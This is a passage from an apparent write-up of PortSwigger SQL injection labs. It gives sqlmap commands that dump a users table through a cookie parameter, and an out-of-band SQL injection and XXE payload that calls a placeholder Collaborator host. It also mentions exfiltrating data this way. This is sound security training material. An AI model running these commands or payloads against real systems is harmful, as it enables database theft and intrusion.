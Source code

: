 
### Quick Solution
As in the previous lab the Database is vulnerable to **SQL Injection with time delays**. We can use the following commands to exploit the lab:
```
# Enumerate tables
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 --dump
# Dump the content of the users table
docker run -it --rm secsi/sqlmap -u "<target_url>" --cookie="TrackingId=1" -p "TrackingId" --level 3 -T users --dump
```


### Solution
The solution is **extremely long** and it has not been copied, see the reference link.

## Blind SQL injection with out-of-band interaction
### Reference: [PortSwigger: Blind SQL injection with out-of-band interaction](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-interaction)


### Quick Solution
This lab contains a blind SQL Injection vulnerability that has **no effect on the application's response**. For this reason an out-of-band interaction with an external domain must be triggered. I tried to use the ``--dns-domain`` option of ``sqlmap`` but it doesn't seems to work. That's probably because of my machine setup (Burp on WSL2 and sqlmap dockerized). For this lab skip to the solution.


### Solution
1. Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the ``TrackingId`` cookie.
2. Modify the ``TrackingId`` cookie, changing it to a payload that will trigger an interaction with the Collaborator server. For example, you can combine SQL injection with basic XXE techniques as follows: 
```
TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--.
```
The solution described here is sufficient simply to trigger a DNS lookup and so solve the lab. In a real-world situation, you would use Burp Collaborator client to verify that your payload had indeed triggered a DNS lookup and potentially exploit this behavior to exfiltrate sensitive data from the application. We'll go over this technique in the next lab.

## Blind SQL injection with out-of-band data exfiltration
### Reference: [PortSwigger: Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)
